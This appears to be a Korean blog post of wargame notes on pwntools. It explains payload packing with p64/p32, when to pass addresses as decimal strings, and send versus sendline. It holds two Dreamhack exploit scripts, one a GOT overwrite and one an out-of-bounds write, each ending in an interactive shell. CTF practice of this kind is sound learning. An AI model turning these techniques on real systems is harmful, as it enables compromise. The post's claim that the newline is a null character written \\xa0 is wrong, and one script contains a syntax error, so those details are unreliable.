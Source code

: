 ```yaml
---
title: "[pwntools] 페이로드 패킹 및 전송"
description: pwntools로 페이로드 패킹 및 전송할 때 유의 사항
date: 2025-01-31 02:59:00 +0900
categories: [Security, System Hacking]
tags: [pwntools]
author: hyungin0505
toc: true
comments: true
# image:
#     path: /assets/img/
#     alt: image alternative text
pin: false  
---
```


---
패킹 때문에 오늘 하루를 꼬박 날려서 정리해둔다   
예전에도 `send`랑 `sendline` 때문에 못 풀었던 적이 있어서 같이 정리하기로 했다   

pwntools 파이썬 모듈에는 `p32`, `p64` 함수가 존재한다   
간단하게 이분법적으로 생각하면 문자열 자체를 입력할 때에는 `str()` 함수를 사용하고 메모리 주소를 입력할 때에는 `p32` 또는 `p64` 함수를 사용한다   

근데 이렇게만 생각했다가 오늘 시간을 잡아먹혔기 때문에 무조건적이라 생각하면 안 된다..  
<br> 
   
---

## **p64 vs p32**

둘 다 패킹 함수이지만 저장할 데이터 크기가 다르다

### p64 

64비트 즉, 8바이트 패킹에 사용된다   
데이터를 리틀 엔디언으로 변환하는데 주로 64비트 시스템에서 메모리 주소를 조작할 때 사용된다   

```python
print(p64(0x12345678abcdef01))
print(u64(b'\x01\xef\xcd\xab\x78\x56\x34\x12'))
```

```python
b'\x01\xef\xcd\xab\x78\x56\x34\x12'
1311768467750121217
```

참고로 `e.got['printf']`, `e.sym['get_shell']` 등으로 찾은 심볼은 정수 형태이므로 리틀 엔디안으로 입력할 경우 `p64` 함수로 패킹이 필요하다   
 
### p32

32비트 즉, 4바이트 데이터 패킹에 사용된다   
리틀 엔디언으로 변환하며 32비트 시스템에서 주로 사용된다     
<br> 

---

## **str vs p64 / p32**

[Dreamhack 32](https://dreamhack.io/wargame/challenges/32)


```c
int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

임의의 주소값에 원하는 값을 대입할 수 있는 바이너리이다   
`buf` 입력을 0x80만큼 받기 때문에 버퍼 오버플로우가 발생할 수도 있어 return 주소를 `get_shell` 함수의 주소로 바꾸어 풀이할 수도 있을 것 같다   
`system` 함수가 실행되도록 movaps도 같이 신경 써주면 풀릴 것 같지만 직접 해보지 않았다..  
<br> 

---

![External Image](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FCx0D8%2FbtsL2dszNR8%2FVyAXeXDSYkUaeedN9dIG61%2Fimg.png)

카나리 값이 어긋나면 `__stack_chk_fail` 을 호출하기 때문에 `__stack_chk_fail`의 GOT를 `get_shell` 주소로 덮어씌워 풀이했다  
<br> 

---

```python
from pwn import *

port = 00000
p = process('./ssp_000')
p = remote('host1.dreamhack.games', port)
e = ELF('./ssp_000', checksec = False)

# context.log_level = 'debug'

payload = b'A' * 0x4a

p.send(payload)
p.sendlineafter(b'Addr : ', str(e.got['__stack_chk_fail']))
p.sendlineafter(b'Value : ', str(e.sym['get_shell']))

p.interactive()
```

메모리 주소는 `p64`, 문자열 전달은 `str`이라는 이분법적 사고에 사로잡혀 있어서 못 풀고 있었다..   
본 문제에서는 주소와 값을 `%ld`로 그대로 전달 받기 때문에 모두 `str`로 묶어서 별다른 패킹 없이 전달해줘야 한다  
<br> 
   
---

[Dreamhack 1617](https://dreamhack.io/wargame/challenges/1617)
![External Image](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FnuGMW%2FbtsL3jlrXzc%2FvZs8lHE3Itp7LDPFfYe5EK%2Fimg.png)

Out of Bound로 푸는 문제다  
<br> 

---

```python
from pwn import *

p = process('./prob')
p = remote('host1.dreamhack.games', 17260)
e = ELF('./prob', checksec = False)

p.sendlineafter(b'val: ', b'-15'))
p.sendlineafter(b'val: ', str(e.sym['win']).encode())

p.interactive()
```

`buf`의 인덱스에 값이 `%lu`로 들어가는 것이기에 패킹을 하면 안 된다

바보 같은 나는 메모리 주소는 무조건 패킹이라 생각하고 `p64` 씌워놓고 왜 안 되지 하면서 무한 삽질 중이었다..   
아무튼 이렇게 값이 어떻게 전달되는지 확실하게 확인하고 패킹을 씌울지 말지 정해야 한다  
<br> 

---

## **send / sendline**

처음 로드맵 따라갈 때 이것 때문에 애를 좀 먹었다   
지금은 잘 알고 쓰고 있지만 그냥 같이 정리해본다   

`scanf` 또는 `read` 함수 등에 값을 입력할 때 사용자는 입력을 완료하기 위해 엔터를 눌러 널 문자(\\xa0)로 문자열의 종료를 알린다   
이때 `scanf`는 널 문자를 버리지만 `read`는 널 문자까지 받아버린다

`send` 함수는 인자 그대로 전송하고, sendline 함수는 인자에 널 문자를 붙여서 보낸다   
그래서 `read` 함수에 `sendline`으로 페이로드나 메모리 주소를 전달하면 널 문자가 포함되어 원하는대로 동작이 실행되지 않을 수도 있다   
특히 카나리에 덮어씌울 때 조심해야 한다

이제 막 시스템 해킹 로드맵을 끝내서 후에 예외가 발생할 지는 아직 모르겠지만 현재로서는 `read` 함수에는 `send`, `scanf` 함수에는 `sendline`을 사용하고 있다
